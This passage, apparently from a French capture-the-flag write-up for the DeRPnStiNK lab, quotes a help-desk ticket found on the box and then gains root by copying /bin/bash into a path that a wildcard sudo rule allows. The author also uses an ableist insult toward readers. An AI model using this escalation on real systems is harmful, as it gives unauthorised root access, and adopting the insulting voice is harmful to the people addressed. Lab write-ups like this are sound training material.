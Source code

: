 ```plain
Full description and latest notes on your Ticket: Sudoers File issues
Notification

Regards,
Service Desk

Listen with focus, answer with accuracy, assist with compassion.

From: Help Desk
Date: Mon, Sep 10, 2017 at 2:53 PM
Subject: sudoers ISSUE=242 PROJ=26
To: Derp, Mr (mrderp) [C]
When replying, type your text above this line.

Closed Ticket Notification

Thank you for contacting the Help Desk. Your ticket information and its resolution is
below. If you feel that the ticket has not been resolved to your satisfaction or you need additional
assistance, please reply to this notification to provide additional information.
If you need immediate help (i.e. you are within two days of a deadline or in the event of a
security emergency), call us or visit our Self Help Web page at https://pastebin.com/RzK9WfGw 
Note that the Help Desk's busiest hours are between 10 a.m. (ET)
and 3 p.m. (ET).
Toll-free: 1-866-504-9552
Phone: 301-402-7469
TTY: 301-451-5939
Ticket Title: sudoers issues
Ticket Number: 242
Status: Closed
Date Created: 09/10/2017
Latest Update Date: 09/10/2017
CC’s:
Resolution: Closing ticket. ticket notification.

Regards,
eRA Service Desk
Listen with focus, answer with accuracy, assist with compassion.
For more information, dont forget to visit the Self Help Web page!!!
```

Pour l'attardé mental au fond de la classe ça veut dire qu'on doit faire un *sudo -l* pour voir ce qu'on est autorisé à lancer :  

```plain
User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
```

Obtenir le root est aisé :  

```plain
mrderp@DeRPnStiNK:~$ cp /bin/bash /home/mrderp/binaries/derpybash
mrderp@DeRPnStiNK:~$ sudo /home/mrderp/binaries/derpybash -p
root@DeRPnStiNK:~# id
uid=0(root) gid=0(root) groups=0(root)
```
